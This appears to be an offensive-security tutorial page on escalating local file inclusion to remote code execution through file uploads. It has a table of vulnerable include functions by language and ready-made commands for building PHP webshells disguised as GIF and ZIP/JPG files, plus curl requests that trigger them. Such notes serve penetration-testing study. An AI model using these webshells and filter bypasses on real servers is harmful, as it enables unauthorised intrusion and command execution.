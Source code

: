 ## RCE

If the vulnerable function has code `Execute` capabilities, then the code within the file we upload will get executed if we include it, **regardless of the file extension or type**. The file upload form does not need to be vulnerable, just allowing file uploads.

<table><thead><tr><th width="299">Function</th><th align="center">Read Content</th><th align="center">Execute</th><th align="center">Remote URL</th></tr></thead><tbody><tr><td><strong>PHP</strong></td><td align="center"></td><td align="center"></td><td align="center"></td></tr><tr><td><code>include()</code>/<code>include_once()</code></td><td align="center">✅</td><td align="center">✅</td><td align="center">✅</td></tr><tr><td><code>require()</code>/<code>require_once()</code></td><td align="center">✅</td><td align="center">✅</td><td align="center">❌</td></tr><tr><td><strong>NodeJS</strong></td><td align="center"></td><td align="center"></td><td align="center"></td></tr><tr><td><code>res.render()</code></td><td align="center">✅</td><td align="center">✅</td><td align="center">❌</td></tr><tr><td><strong>Java</strong></td><td align="center"></td><td align="center"></td><td align="center"></td></tr><tr><td><code>import</code></td><td align="center">✅</td><td align="center">✅</td><td align="center">✅</td></tr><tr><td><strong>.NET</strong></td><td align="center"></td><td align="center"></td><td align="center"></td></tr><tr><td><code>include</code></td><td align="center">✅</td><td align="center">✅</td><td align="center">✅</td></tr></tbody></table>

### Image

We can create a malicious image containing PHP code, using an allowed image extension (_bypassing extension filters_), in this case `.gif`,and including the image's [magic bytes](file-uploads.md#server-side-filters) at the beginning of the file content (`GIF8`) (_bypassing content type filters_).

```bash
# Creating a malicious GIF file
echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
```

This file on its own is harmless and would not affect normal web application. However, if we combine it with an LFI flaw, then we may be able to achieve RCE after finding its [uploads directory](file-uploads.md#uploads-directory).

```bash
# RCE
curl http://<ip:port>/index.php?language=./profile_images/shell.gif&cmd=id
```

### ZIP

The [zip](https://www.php.net/manual/en/wrappers.compression.php) wrapper (not enabled by default) allows to achieve RCE by archiving a webshell into a zip file ending in an allowed extension, e.g. `.jpg`. The files within the archived can be reached using `#`. This has a higher chance to work if ZIP uploads are allowed by the application, as content-type filters may block it.

{% code overflow="wrap" %}
```shell
# Creating and archiving webshell (zip file = shell.jpg)
echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php
# upload -> RCE (URL-encode '#' -> %23)
curl http://<ip:port>/index.php?language=zip://./profile_images/shell.jpg%23shell.php&cmd=id
```
{% endcode %}
